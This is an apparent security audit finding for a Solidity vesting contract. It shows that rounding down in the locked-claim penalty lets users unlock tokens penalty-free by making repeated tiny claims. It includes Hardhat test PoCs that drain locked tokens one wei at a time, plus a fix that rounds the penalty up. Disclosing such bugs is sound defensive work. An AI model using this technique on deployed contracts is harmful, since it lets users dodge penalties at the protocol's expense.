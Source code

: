 Cold Coal Caribou

High

# Rounding in penalty calculation allows claiming locked tokens penalty-free

### Summary

In the `Vesting::_claimLockedToken`, the `penalty` calculation rounds down, allowing a vesting user to unlock locked tokens without suffering the stablished penalty.

### Root Cause

The flow for claiming locking tokens starts in the [`Vesting::claimLockedToken`](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/d7cf7fc96af1c25b53a7b500a98b411cd018c0d3/token/contracts/vesting/Vesting.sol#L160-L162) function which internally calls the internal `Vesting::_claimLockedToken` function:
[Vesting.sol#L281-L299](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/d7cf7fc96af1c25b53a7b500a98b411cd018c0d3/token/contracts/vesting/Vesting.sol#L281-L299)
```solidity
	function _claimLockedToken(address token, address user, uint256 amount) internal {
		// First, claim any unlocked tokens.
		_claimUnlockedToken(token, user);
		VestingPlan storage vestingPlan = vestingPlans[token][user];
		if (vestingPlan.lockedAmount() < amount) revert InvalidAmount();
		
		// Adjust the vesting plan
		vestingPlan.resetAmount(vestingPlan.lockedAmount() - amount);
		totalVested[token] -= amount;
		uint256 penalty = (amount * lockedClaimPenalty) / 1e18;
		
		// Ensure sufficient balance (minting if necessary)
		_ensureSufficientBalance(token, amount);
		
		IERC20(token).transfer(user, amount - penalty);
		IERC20(token).transfer(lockedClaimPenaltyReceiver, penalty);
		
		emit LockedTokenClaimed(token, user, amount, penalty);
	}
```

In the function above, the `penalty` is calculated based on the `lockedClaimPenalty` which is a value that can go from 0 (0%) to 1e18 (100%).

The issue is that in case `(amount * lockedClaimPenalty) < 1e18`, the `penalty` will be `0`, allowing anyone to repeatedly call the function to claim locked tokens without penalty.

### Internal Pre-conditions

- User having locked tokens in the `Vesting` contract. 

### External Pre-conditions

None

### Attack Path

- Attacker with locked tokens calls `Vesting::claimLockedToken` with an `amount` parameter that results in the penalty calculation rounding down to zero.
- Attacker repeats previous step until all locked tokens are unlocked without penalty.

### Impact

- Locked tokens being unlocked without penalty.

### PoC

Add the following PoC to `token/tests/vesting.behavior.ts` in the `claimLockedToken` tests:

```typescript
it("Should allow claiming locked tokens penalty-free due to penalty rounding down", async () => {
            // Assume lockedClaimPenalty is 0.5e18 (50%)
            const penaltyRate = await symmVesting.lockedClaimPenalty();
            console.log("Penalty Rate:", penaltyRate.toString());

            // Use a small claim amount where penalty truncates to 0
            const claimAmount = BigInt(1); // 1 wei but could be bigger depending on the penalty rate
            const expectedPenalty = (claimAmount * penaltyRate) / ethers.parseEther("1"); // Should be 0
            const oldUserBalance = await context.symmioToken.balanceOf(context.signers.user1);
            const oldPenaltyBalance = await context.symmioToken.balanceOf(await symmVesting.lockedClaimPenaltyReceiver());
            const oldTotalVested = await symmVesting.totalVested(context.symmioToken);
            await symmVesting.connect(context.signers.user1).claimLockedToken(context.symmioToken, claimAmount);

            const newUserBalance = await context.symmioToken.balanceOf(context.signers.user1);
            const newPenaltyBalance = await context.symmioToken.balanceOf(await symmVesting.lockedClaimPenaltyReceiver());
            const newTotalVested = await symmVesting.totalVested(context.symmioToken);
            const plan = await symmVesting.vestingPlans(context.symmioToken, await context.signers.user1.getAddress());

            expect(expectedPenalty).to.equal(0n); // Penalty truncates to 0
            expect(newUserBalance).to.equal(oldUserBalance + claimAmount); // User gets full amount
            expect(newPenaltyBalance).to.equal(oldPenaltyBalance); // Penalty receiver gets nothing
            expect(newTotalVested).to.equal(oldTotalVested - claimAmount);
            expect(plan.amount).to.equal(999n);
        });

        it("Should drain all locked tokens penalty-free with repeated small claims", async () => {
            const penaltyRate = await symmVesting.lockedClaimPenalty();
            console.log("Penalty Rate:", penaltyRate.toString()); // Debug output

            const claimAmount = BigInt(1); // 1 wei per claim
            const totalClaims = 1000; // Drain all 1000 wei

            const oldUserBalance = await context.symmioToken.balanceOf(context.signers.user1);
            const oldPenaltyBalance = await context.symmioToken.balanceOf(await symmVesting.lockedClaimPenaltyReceiver());

            for (let i = 0; i < totalClaims; i++) {
                await symmVesting.connect(context.signers.user1).claimLockedToken(context.symmioToken, claimAmount);
            }

            const newUserBalance = await context.symmioToken.balanceOf(context.signers.user1);
            const newPenaltyBalance = await context.symmioToken.balanceOf(await symmVesting.lockedClaimPenaltyReceiver());

            const plan = await symmVesting.vestingPlans(context.symmioToken, await context.signers.user1.getAddress());

            expect(newUserBalance).to.equal(oldUserBalance + BigInt(1000)); // User gets all 1000 wei
            expect(newPenaltyBalance).to.equal(oldPenaltyBalance); // No penalty paid
            expect(plan.amount).to.equal(0n); // All tokens claimed
        });
```

Run the PoC:
```bash
npx hardhat test --grep "claimLockedToken"
```

### Mitigation

Round the division up in the penalty calculation using the `SymmVesting::_mulDivUp` function (you will have to move the function into the `Vesting` contract):
```diff
function _claimLockedToken(address token, address user, uint256 amount) internal {
		// First, claim any unlocked tokens.
		_claimUnlockedToken(token, user);
		VestingPlan storage vestingPlan = vestingPlans[token][user];
		if (vestingPlan.lockedAmount() < amount) revert InvalidAmount();
		
		// Adjust the vesting plan
		vestingPlan.resetAmount(vestingPlan.lockedAmount() - amount);
		totalVested[token] -= amount;
-		uint256 penalty = (amount * lockedClaimPenalty) / 1e18;
+       uint256 penalty = _mulDivUp(amount, lockedClaimPenalty, 1e18);

		// Ensure sufficient balance (minting if necessary)
		_ensureSufficientBalance(token, amount);
		
		IERC20(token).transfer(user, amount - penalty);
		IERC20(token).transfer(lockedClaimPenaltyReceiver, penalty);
		
		emit LockedTokenClaimed(token, user, amount, penalty);
	}
```